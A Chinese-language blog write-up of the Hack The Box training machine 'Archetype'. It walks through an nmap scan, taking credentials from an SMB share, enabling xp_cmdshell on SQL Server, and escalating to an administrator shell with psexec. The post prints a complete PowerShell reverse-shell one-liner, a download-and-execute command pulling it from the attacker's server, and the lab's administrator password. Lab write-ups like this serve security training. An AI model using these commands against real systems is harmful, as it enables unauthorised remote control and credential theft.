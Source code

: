 ```yaml
---
layout: post
title:  "[Starting Point]Archetype"
date:   2021-02-01 11:30:00 +0800
categories: CTF
---
```


## 前言

心血来潮想试试一些国外的CTF网站试试，然后想起来HTB一直都没有开始，于是在B站看了一下视频打算上手玩一下。

## 准备

账号的获取不用多说，网上教程有一大堆，我这里简单讲一下openvpn，这个东西是在linux命令行里面直接跑的，在HTB获取`example.ovpn`的pack之后，直接:

```bash
openvpn <example.ovpn> 
```

最后检查一下能不能ping通那个IP

自己的IP也会变，会被分配一个虚拟网卡

![Snipaste_2021-02-01_11-53-48](..\images\Snipaste_2021-02-01_11-53-48.jpg)

## 信息收集

我做的这个是HTB的新手教程靶机，每一步都有tutorial，因此只要跟着步骤来就可以了

首先是nmap扫描IP的端口

这里用到的命令是

```bash
nmap -sS -sC -sV -T4 -vv <指定IP>
```

用这个可以探测到端口的服务

最后把得到的信息收集起来

```
opened ports:
445
135
139
1433
Host script results:
|_clock-skew: mean: 2h56m05s, deviation: 3h34m41s, median: 1h20m05s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53066/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42521/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45578/udp): CLEAN (Failed to receive data)
|   Check 4 (port 48474/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-01-31T19:06:00-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-01T03:06:03
|_  start_date: N/A
```

## 漏洞探测

由于445(SQL Server)和1433(SMB)端口被打开，那么首先从这两个端口入手

![Snipaste_2021-02-01_12-00-12](..\images\Snipaste_2021-02-01_12-00-12.jpg)

## 漏洞利用

可以连接backups，进去之后用get下载里面的文件

![Snipaste_2021-02-01_12-01-53](..\images\Snipaste_2021-02-01_12-01-53.jpg)

可以得到SQL Server的账号密码

使用impactet工具集访问SQL Server

```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@<IP> -windows-auth
```

之后输入密码 连接上SQL Server，依次执行如下命令

```bash
 EXEC sp_configure 'Show Advanced Options', 1; 
 reconfigure; 
 sp_configure; 
 EXEC sp_configure 'xp_cmdshell', 1 
 reconfigure; 
 xp_cmdshell "whoami" 
```

可以发现已经拿到了一个简单的命令执行

试着反弹shell

创建shell.ps1

```powershell
 $client = New-Object System.Net.Sockets.TCPClient("<你的IP>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

然后打开自己的服务器

```bash
 python3 -m http.server 80 
```

打开nc 开启443端口监听

```bash
 nc -lvnp 443
```

修改入网规则

```bash
 ufw allow from 10.10.10.27 proto tcp to any port 80,443 
```

在SQL Server中执行反弹shell命令

```bash
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<你的IP>/shell.ps1\");" 
```

![Snipaste_2021-02-01_12-35-24](..\images\Snipaste_2021-02-01_12-35-24.jpg)

成功反弹回来，这里可以拿到user的flag

![Snipaste_2021-02-01_12-36-36](..\images\Snipaste_2021-02-01_12-36-36.jpg)

使用下面的命令访问PowerShell历史记录文件。

```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

得到管理员密码

```powershell
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

使用impacket的psexec.py拿到win的管理员权限shell

这里有个坑，直接执行example下面的文件会提示缺少包，需要把包复制一份导入到example中才行

![Snipaste_2021-02-01_12-42-06](..\\images\Snipaste_2021-02-01_12-42-06.jpg)

最后在Desktop处拿下root的flag

结束！